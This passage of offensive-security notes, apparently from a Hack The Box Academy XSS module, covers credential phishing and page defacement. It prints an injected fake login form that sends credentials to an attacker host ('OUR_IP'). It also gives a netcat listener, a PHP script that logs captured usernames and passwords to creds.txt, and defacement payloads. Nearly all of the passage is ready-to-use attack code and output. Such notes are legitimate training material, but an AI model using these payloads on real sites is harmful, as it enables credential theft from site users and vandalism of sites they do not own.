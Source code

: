 ### Cleanup
Remove unwanted fields with the using document.getElementByID().remove() function
Find the "id="x" in the form to be removed. (x = 'urlform' in the below example
```javascript
document.getElementById('urlform').remove();
```

Completed script example
```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();
```

Start netcat to listen for a connection
```bash
sudo nc -lvnp 80
```
Example Response:
```bash
connect to [10.10.XX.XX] from (UNKNOWN) [10.10.XX.XX] XXXXX
GET /?username=test&password=test&submit=Login HTTP/1.1
Host: 10.10.XX.XX
...SNIP...
```
Capture responses with php (Capture credentials to creds.txt)
```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```
Start the php listener
```bash
sudo php -s 0.0.0.0:80
```
## Defacing
### Changing the Background
```html
<script>document.body.style.background = "#141d2b"</script>
<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>#Sets an image as background
```
### Change Page Title
```html
<script>document.title = 'HackTheBox Academy'</script>
```
### Change Page Text
```javascript
document.getElementById("todo").innerHTML = "New Text"
$("#todo").html('New Text'); #jquery
```
### Change Entire Site
```javascript
document.getElementsByTagName('body')[0].innerHTML = "New Text"
```
```html
```